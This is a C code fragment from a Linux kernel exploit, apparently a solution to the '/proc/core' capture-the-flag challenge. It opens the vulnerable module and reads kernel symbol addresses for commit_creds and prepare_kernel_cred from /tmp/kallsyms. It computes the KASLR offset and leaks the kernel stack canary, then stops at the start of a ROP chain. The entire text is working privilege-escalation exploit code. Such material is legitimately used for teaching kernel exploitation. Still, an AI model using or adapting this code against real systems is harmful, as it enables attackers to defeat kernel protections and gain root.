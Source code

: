 ```c

    log_info("[*] Start to exploit...");
    save_status();

    fd = open("/proc/core", O_RDWR);
    if(fd < 0) {
        log_error("[x] Failed to open the /proc/core !");
        exit(EXIT_FAILURE);
    }

    /* get addresses of kernel symbols */

    log_info("[*] Reading /tmp/kallsyms...");

    ksyms_file = fopen("/tmp/kallsyms", "r");
    if(ksyms_file == NULL) {
        log_error("[x] Failed to open the sym_table file!");
        exit(EXIT_FAILURE);
    }

    while(fscanf(ksyms_file, "%lx%s%s", &addr, type, buf)) {
        if(prepare_kernel_cred && commit_creds) {
            break;
        }

        if(!commit_creds && !strcmp(buf, "commit_creds")) {
            commit_creds = addr;
            printf(
                SUCCESS_MSG("[+] Successful to get the addr of commit_cread: ")   
        	   "%lx\n", commit_creds);
            continue;
        }

        if(!strcmp(buf, "prepare_kernel_cred")) {
            prepare_kernel_cred = addr;
            printf(SUCCESS_MSG(
                "[+] Successful to get the addr of prepare_kernel_cred: ")
        	   "%lx\n", prepare_kernel_cred);
            continue;
        }
    }

    kernel_offset = commit_creds - COMMIT_CREDS;
    kernel_base += kernel_offset;
    printf(
        SUCCESS_MSG("[+] Got kernel base: ") "%lx"
        SUCCESS_MSG(" , kaslr offset: ") "%lx\n",
        kernel_base,
        kernel_offset
    );

    /* reading canary value */

    log_info("[*] Reading value of kernel stack canary...");

    set_off_val(fd, 64);
    core_read(fd, buf);
    canary = ((size_t*) buf)[0];

    printf(SUCCESS_MSG("[+] Got kernel stack canary: ") "%lx\n", canary);

    /* building ROP chain */

```